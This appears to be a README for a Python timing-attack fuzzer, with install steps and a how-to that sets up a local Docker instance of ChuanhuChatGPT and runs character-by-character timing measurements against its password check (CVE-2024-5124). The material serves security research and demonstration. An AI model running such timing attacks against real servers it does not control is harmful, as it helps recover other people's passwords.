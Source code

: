 ## I Tutorials:

# I.1/ Build modular-timing-fuzzer

Install dependencies

```bash
virtualenv -p python3 venv3 ;
source venv3/bin/activate &&

pip install argparse requests matplotlib scipy pandas
```

Then run:

```bash
python3 -m pip install build && 
python3 -m build &&
python3 -m pip install -e . &&
python3 -m pip install dist/modular_time_fuzzer_GOGO-0.0.1-py3-none-any.whl --force-reinstall
```

# I.2/ Install From Pypi

Run simply:

```bash
pip install modular-time-fuzzer
```


# I.3/ Usage

`measure` command line permits to choose inputs that will be recorded to the database.
`analyze` command line permits to represent the data collected to a picture graph.

```bash
measure -r 10 -c a -c b -c c -c d -c e -c f -c g -c h -c i -c j -c k -c l -c m -c n -c o -c p -c q -c r -c s -c t -c u -c v -c w -c x -c y -c z "out.sqlite"
analyze -c a -c b -c c -c d -c e -c f -c g -c h -c i -c j -c k -c l -c m -c n -c o -c p -c q -c r -c s -c t -c u -c v -c w -c x -c y -c z "out.sqlite"
```

## II How-to:

# II.1/ developping timing attack against the password verification of Chuanchuangpt (CVE-2024-5124) using a cloud service in background

# II.1.1/ Deploy victim server:

# Install docker

```bash
# Install packages required for the installation

sudo apt-get update
sudo apt install --yes ca-certificates curl
sudo install -m 0755 -d /etc/apt/keyrings
sudo curl -fsSL https://download.docker.com/linux/debian/gpg -o /etc/apt/keyrings/docker.asc
sudo chmod a+r /etc/apt/keyrings/docker.asc

# Add the repository to Apt sources:

echo \
  "deb [arch=$(dpkg --print-architecture) signed-by=/etc/apt/keyrings/docker.asc] https://download.docker.com/linux/debian \
  $(. /etc/os-release && echo "$VERSION_CODENAME") stable" | \
  sudo tee /etc/apt/sources.list.d/docker.list > /dev/null
sudo apt-get update
# Download GPG key and store repository in the system

curl -fsSL https://download.docker.com/linux/debian/gpg | gpg --dearmor -o /usr/share/keyrings/docker.gpg
echo "deb [arch=$(dpkg --print-architecture) signed-by=/usr/share/keyrings/docker.gpg] https://download.docker.com/linux/debian bookworm stable" |tee /etc/apt/sources.list.d/docker.list > /dev/null 
apt update 

# Install Docker packages

sudo apt install --yes docker-ce docker-ce-cli containerd.io docker-buildx-plugin docker-compose-plugin
```

# Run victim server

```bash
export JSON='{
    "users": [["openai", "isCloseAi"]]
}' ;

export DOCKER_CMD="apt update && apt install --yes git && pip install itsdangerous gradio && echo '${JSON}' > config.json && sed -i 's/share=share/share=True/g' ChuanhuChatbot.py && python3 -u ChuanhuChatbot.py 2>&1 | tee /var/log/application.log"

export DOCKER_RUN='sudo docker run -e language=en_US -it tuchuanhuhuhu/chuanhuchatgpt:20240310 /bin/bash -c "${DOCKER_CMD}"'

tmux new-session -d -s persistent_server "${DOCKER_RUN}"
tmux attach -t persistent_server
```

## II.1.2/ Attack the victim server

If you want to run these two scripts

```bash
measure -r 1000 -c a -c b -c c -c d -c e -c f -c g -c h -c i -c j -c k -c l -c m -c n -c o -c p -c q -c r -c s -c t -c u -c v -c w -c x -c y -c z "out.sqlite"
analyze -c a -c b -c c -c d -c e -c f -c g -c h -c i -c j -c k -c l -c m -c n -c o -c p -c q -c r -c s -c t -c u -c v -c w -c x -c y -c z "out.sqlite"
```

On a cloud backend to ensure it will never exit, install previously mentionned dependencies and run:

```bash
tmux new-session -d -s persistent_session "rm -Rf tmpdir/ && mkdir tmpdir/ ; pmeasure -r 1000 -c a -c b -c c -c d -c e -c f -c g -c h -c i -c j -c k -c l -c m -c n -c o -c p -c q -c r -c s -c t -c u -c v -c w -c x -c y -c z 'out.sqlite' && analyze -c a -c b -c c -c d -c e -c f -c g -c h -c i -c j -c k -c l -c m -c n -c o -c p -c q -c r -c s -c t -c u -c v -c w -c x -c y -c z 'out.sqlite'"
tmux attach -t persistent_session
```

# III/ API reference for developpers

# IV/ Why using a modular timing attack fuzzer?

# IV.1 / attacks against passwords authentication with unsecure crypto comparison.

# IV.2 / attacks against assymetric encryption algorithms.

